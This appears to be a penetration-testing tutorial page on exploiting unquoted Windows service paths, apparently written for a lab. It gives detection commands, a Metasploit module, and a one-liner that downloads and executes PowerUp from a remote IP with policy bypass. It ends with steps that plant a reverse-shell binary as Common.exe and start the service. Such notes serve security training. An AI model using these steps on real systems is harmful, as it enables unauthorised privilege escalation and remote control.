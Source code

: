# Unquoted Service Path

Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

&#x20;To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## detecting unquoted service paths

### manual method

```
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows (since by default there is no such service which has spaces and is unquoted in this folder). Also, we need to exclude those services that are enclosed within the double quotes.

### automated with metasploit

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### automated using powerup

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### automated with winPEAS

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (100).png>)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```
sc qc unquotedsvc
```

![](<../../../../.gitbook/assets/image (101).png>)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```
accesschk.exe -ucqv user unquotedsvc
```

![](<../../../../.gitbook/assets/image (77).png>)

we have start permission, now check for write permission on each directory path to the binary file:

```
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](<../../../../.gitbook/assets/image (75).png>)

it looks like all the members of the builtin\users group have RW (read/write) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. (because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start unquotedsvc
```

![](<../../../../.gitbook/assets/image (97).png>)







